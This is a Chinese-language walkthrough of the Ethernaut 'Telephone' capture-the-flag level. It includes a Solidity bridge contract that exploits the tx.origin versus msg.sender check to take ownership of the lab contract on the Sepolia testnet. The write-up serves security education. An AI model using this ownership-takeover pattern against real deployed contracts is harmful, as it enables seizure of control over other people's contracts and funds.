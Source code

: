 # level4 telephone

## 1. 问题

将合约的owner设置成自己的地址


## 2. 解法

合约有`changeOwner`函数，只要这个函数的调用方（sender）和交易发起方 (origin)不一致即可。我们可以通过部署一个 bridge 合约，通过这个bridge合约间接调用`changeOwner`即可做到。

对于嵌套调用的场景，比如`EOA(A) -> CONTRACT(B) -> CONTRACT(C)`, 在合约C中的函数看来，tx.origin=A, tx.sender=B。origin指向的是__最初发起交易__的EOA地址，sender指的是__直接调用本合约的上一个地址__。

1. 我们写一个合约bridge：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract bridge {
    Telephone public telephone;

    constructor(address _telephone) {
        telephone = Telephone(_telephone);
    }
    
    function send() external {
        // 设置owner为EOA地址
        telephone.changeOwner(msg.sender);
    }
} 
```

2. 复制到remix，部署到测试链：[0xf97be735216a1dddb144ff56dcf25b7de9f94af21c7e5f2ef987c7557d317f35](https://sepolia.etherscan.io/tx/0xf97be735216a1dddb144ff56dcf25b7de9f94af21c7e5f2ef987c7557d317f35)

3. remix里面调用send接口：[0x77174fef6cca1ed5feb39a0ee7ea1ee836f4eca9612c029806adbe61872c6b0a](https://sepolia.etherscan.io/tx/0x77174fef6cca1ed5feb39a0ee7ea1ee836f4eca9612c029806adbe61872c6b0a)

4. 在ethernaut控制台看一下owner，发现已经变了：
```bash
await contract.owner()
```

5. 点击 `submit instance`， 提交通过！
